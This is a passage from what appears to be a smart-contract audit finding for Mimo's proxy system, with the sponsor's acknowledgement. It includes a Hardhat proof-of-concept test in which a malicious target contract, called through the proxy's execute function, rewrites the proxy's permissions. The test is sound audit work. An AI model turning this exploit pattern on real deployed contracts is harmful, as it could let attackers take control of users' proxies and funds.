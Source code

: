 ```typescript
    args: [mimoProxyBase.address],
  });
  const mimoProxyFactory: MIMOProxyFactory = await ethers.getContract("MIMOProxyFactory");

  await deploy("MIMOProxyRegistry", {
    from: owner.address,
    args: [mimoProxyFactory.address],
  });
  const mimoProxyRegistry: MIMOProxyRegistry = await ethers.getContract("MIMOProxyRegistry");

  await deploy("ProxyAttacks", {
    from: owner.address,
    args: [],
  });
  const proxyAttacks: ProxyAttacks = await ethers.getContract("ProxyAttacks");

  return {
    owner,
    attacker,
    mimoProxyBase,
    mimoProxyFactory,
    mimoProxyRegistry,
    proxyAttacks,
  };
});

describe("Proxy attack tests", () => {
  it("Permission manipulation by malicious target", async () => {
    const { owner, mimoProxyRegistry, proxyAttacks } = await setup();
    await mimoProxyRegistry.deploy();
    const currentProxy = await mimoProxyRegistry.getCurrentProxy(owner.address);

    const proxy = await ethers.getContractAt("MIMOProxy", currentProxy);

    // Call setPermission on ProxyAttacks contract
    await proxy.execute(proxyAttacks.address, "0x694bf8a2");

    const envoy = "0x0000000000000000000000000000000000000001";
    const target = "0x0000000000000000000000000000000000000002";
    const selector = "0xdeadbeef";

    // Proxy's permissions have been updated
    expect(await proxy.getPermission(envoy, target, selector)).to.equal(true);
  });
});
```

**[RayXpub (Mimo) acknowledged and commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/161#issuecomment-1210524910):**
 > We acknowledge that this could be an issue although it requires the user to approve a malicious contract to happen, and thus is functioning as was intended by the proxy design.
